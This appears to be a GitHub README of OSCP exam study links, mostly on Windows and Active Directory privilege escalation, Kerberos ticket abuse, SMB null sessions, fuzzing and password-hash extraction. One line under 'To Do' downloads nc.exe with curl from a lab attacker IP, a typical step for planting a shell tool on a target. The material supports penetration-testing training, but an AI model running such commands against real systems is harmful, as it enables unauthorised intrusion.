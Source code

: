 # OSCP_Resources


# Resources

## Done

## In-Progress
http://www.handgrep.se/repository/cheatsheets/postexploitation/WindowsPost-Exploitation.pdf

https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths

## To Do

python -m http.server [<portNo>]
curl http://10.10.14.251:9998/nc.exe --output nc.exe

https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html

One HTTP method is called OPTIONS. It simply allows asking a server which other HTTP methods it supports. The server answers with the "Allow" header and gives us a comma separated list of supported methods.



Nikto

https://www.shellhacks.com/windows-list-services-cmd-powershell/

- Fuzzing
  - https://scottc130.medium.com/how-to-use-wfuzz-to-fuzz-web-applications-8594c11d59d1
  - https://github.com/ffuf/ffuf


- Silver/Golder Ticket
  - https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

- AD:
  - https://adsecurity.org/

- SMB:
  - http://10degres.net/smb-null-session/

- Windows Exploit
  - https://www.exploit-db.com/papers/42556
  - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
  - https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1

- Gitbook/Blog:
  - https://hunter2.gitbook.io/darthsidious/
  - https://pentestlab.blog/

https://github.com/0x4D31/awesome-oscp
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/
https://medium.com/@hakluke/sensitive-files-to-grab-in-windows-4b8f0a655f40
https://github.com/lanjelot/patator
https://book.hacktricks.xyz/windows
https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt
https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation
https://www.youtube.com/watch?v=ur2HPyuQlEU
https://attack.stealthbits.com/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting
https://malicious.link/post/2017/reset-ad-user-password-with-linux/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux
http://10degres.net/smb-null-session/
https://materials.rangeforce.com/tutorial/2019/11/07/Linux-PrivEsc-SUID-Bit/#exploitation-with-file-writing
https://meterpreter.org/rdp-client-excel-sharepoint-remote-code-execution-vulnerability-alert/
https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-2-workflow-and-documentation-tips-9dd335204a48


https://github.com/hakluke/hakrawler

https://github.com/jasonniebauer/Nmap-Cheatsheet
https://medium.com/@orhan_yildirim/windows-privilege-escalation-unquoted-service-paths-61d19a9a1a6a
https://medium.com/@sangeeta.igit/pool-of-resources-for-oscp-28d0dea9e5ed
https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).
https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html
https://itnesweb.com/article/web-tools-or-where-to-start-pentester
https://github.com/gtworek/PSBits/blob/master/Services/Get-ServiceDlls.ps1
https://hexpertlab.wordpress.com/2018/08/02/windows-unquoted-service-path-enumeration-vulnerability/



https://www.dionach.com/blog/how-to-use-owasp-amass-an-extensive-tutorial/
https://medium.com/@noobhax/my-recon-process-dns-enumeration-d0e288f81a8a
https://0xpatrik.com/subdomain-enumeration-2019/

https://techcommunity.microsoft.com/t5/storage-at-microsoft/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/ba-p/1185365
https://www.youtube.com/watch?v=gIz_yn0Uvb8&feature=youtu.be&t=1664s
https://github.com/minimaxir/big-list-of-naughty-strings
https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/


https://www.sans.org/webcasts/purple-team-approach-exploring-aws-security-services-capabilities-115865
https://www.sans.org/webcasts/powershell-2020-state-art-hack-infection-116355